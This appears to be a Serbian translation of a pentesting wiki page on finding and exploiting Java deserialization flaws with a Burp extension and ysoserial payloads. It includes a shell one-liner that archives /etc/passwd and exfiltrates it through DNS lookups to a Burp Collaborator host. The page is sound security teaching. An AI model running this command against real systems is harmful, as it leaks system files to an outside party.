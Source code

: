 Iako se ovo naziva "Ručno testiranje", prilično je **automatizovano**. Automatski će proveriti da li je **deserijalizacija** ranjiva na **bilo koji ysoserial payload** proveravajući biblioteke prisutne na web serveru i istaći one koje su ranjive. Da biste **proverili** da li postoje **ranjive biblioteke**, možete izabrati da pokrenete **Javas Sleeps**, **sleeps** putem **CPU** potrošnje ili korišćenjem **DNS-a**, kako je prethodno pomenuto.

**Eksploatacija**

Kada identifikujete ranjivu biblioteku, možete poslati zahtev na _Exploiting Tab_.\
U ovom tabu morate ponovo **izabrati** mesto **ubacivanja**, napisati **ranjivu biblioteku** za koju želite da kreirate payload i **komandu**. Zatim, samo pritisnite odgovarajući **Attack** dugme.

![https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](<../../.gitbook/assets/4 (1).png>)

### Java Deserialization DNS Exfil informacije

Napravite svoj payload da izvrši nešto slično sledećem:

```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```

### Više informacija

* [https://techblog.mediaservice.net/2017/05/pouzdano-otkrivanje-i-iskorišćavanje-ranjivosti-java-deserijalizacije/](https://techblog.mediaservice.net/2017/05/pouzdano-otkrivanje-i-iskori%C5%A1%C4%87avanje-ranjivosti-java-deserijalizacije/)

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
